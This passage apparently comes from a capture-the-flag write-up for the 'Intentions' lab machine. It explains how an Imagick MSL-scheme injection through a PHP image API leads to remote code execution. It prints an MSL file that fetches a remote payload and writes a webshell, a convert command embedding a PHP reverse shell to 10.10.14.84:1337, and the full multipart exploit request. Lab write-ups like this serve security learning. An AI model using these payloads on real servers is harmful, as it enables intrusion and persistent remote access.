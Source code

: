 The author demonstrated the effectiveness of this technique using the `Imagick` class. This approach appeared promising, given our setup:
```php
$im = new Imagick($path);
```

To summarize, here are the core components we utilized from Sharoglazov's article:

- We crafted an MSL script to fetch a PHP payload from our host:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<image>
  <read filename="http://attacker.com/payload.png" />
  <write filename="/var/www/html/intentions/public/webshell.php" />
</image>
```
However, URLs like `msl:http://attacker.com` aren't supported, so we had to upload our MSL script to the target machine and include it from there:
```json
{
	"path":"msl:/tmp/payload.msl",
	"effect":"xxx"
}
```

The plan was to send a `multipart/form-data` request with our MSL script as a file. PHP would then create a temporary file in `/tmp/phpXXXXXX` that we could include in the same request, using a technique Sharoglazov discovered:
- The `vid:` scheme allowed for wildcard usage in the path, enabling us to use `vid:msl:/tmp/php*`

To make this work, we first needed to embed a PHP payload within an image. If we didn't, retrieving the payload from our server would fail:
```bash
convert xc:red -set 'Copyright' '<?php system("bash -i >& /dev/tcp/10.10.14.84/1337 0>&1"); ?>' payload.png
```

Next, we had to package all of this into a single request. Luckily, we could relocate the `path` and `effect` parameters from the JSON body to the query string and submit a single multipart request:
```http
POST /api/v2/admin/image/modify?path=vid:msl:/tmp/php*&effect=xxx HTTP/1.1
Host: intentions.htb
Content-Type: multipart/form-data; boundary=-----------------------------boundary1234567890
Content-Length: ...
Connection: close
 
-----------------------------boundary1234567890
Content-Disposition: form-data; name="payload"; filename="payload.msl";
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="http://10.10.14.84/payload.png" />
 <write filename="/var/www/html/intentions/public/payload.php" />
</image>
-----------------------------boundary1234567890
```
>Finding the right location for the webshell proved to be tricky and required a fair bit of trial and error. But eventually, we discovered that `/public/` worked, and we could access our payload at: http://intentions.htb/payload.php

